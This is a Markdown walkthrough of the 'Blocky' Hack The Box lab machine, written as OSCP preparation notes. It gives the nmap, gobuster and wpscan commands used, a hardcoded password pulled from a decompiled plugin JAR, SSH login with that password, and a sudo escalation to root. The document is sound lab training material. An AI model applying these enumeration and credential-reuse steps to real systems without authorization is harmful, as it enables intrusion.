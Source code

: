 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.37
```
> Identifies ports 21 [FTP](FTP), 22 [SSH](SSH), 80 [HTTP](HTTP.md), and 25565 (Minecraft, closed).

### 🔍 Targeted Service Enumeration
```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.37
```
> Finds FTP (ProFTPD 1.3.5a), SSH (OpenSSH 7.2p2), HTTP (Apache with WordPress 4.8).

---

## 🌐 Web & WordPress Enumeration

### 🧪 Directory Brute Force
```bash
gobuster dir -u http://10.10.10.37 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php -t 40 -o scans/gobuster-root-medium
```
> Discovers important directories: `/wp-login.php`, `/plugins/`, `/phpmyadmin`, `/wiki`.

### 🔍 WordPress Scan
```bash
wpscan --url http://10.10.10.37 -e ap,t,tt,u | tee scans/wpscan
```
> Finds:
- WP version: 4.8
- User: `notch`
- `/wp-content/uploads/` listing enabled
- `/xmlrpc.php` accessible

---

## 📦 Plugin Enumeration & JAR Analysis

### 🔽 Download Java JAR Files from `/plugins/`
> Found by visiting `/plugins` in browser.

### 🧪 Decompile with jd-gui (GUI tool)
```bash
# No command—GUI-based tool
```
> `BlockyCore.jar` contains hardcoded MySQL password:  
`8YsqfCTnvxAUeduzjNSXe22`

---

## 🔓 Shell as notch

### 🧪 Attempt SSH Login with Found Credentials
```bash
sshpass -p 8YsqfCTnvxAUeduzjNSXe22 ssh notch@10.10.10.37
```

### 📄 Capture User Flag
```bash
cat ~/user.txt
```

---

## 🪜 Privilege Escalation to root

### 🔍 Check sudo Rights
```bash
sudo -l
```
> notch can run **ALL commands as root**.

### 🔁 Elevate to Root
```bash
sudo su -
```

### 🏁 Capture Root Flag
```bash
cat /root/root.txt
```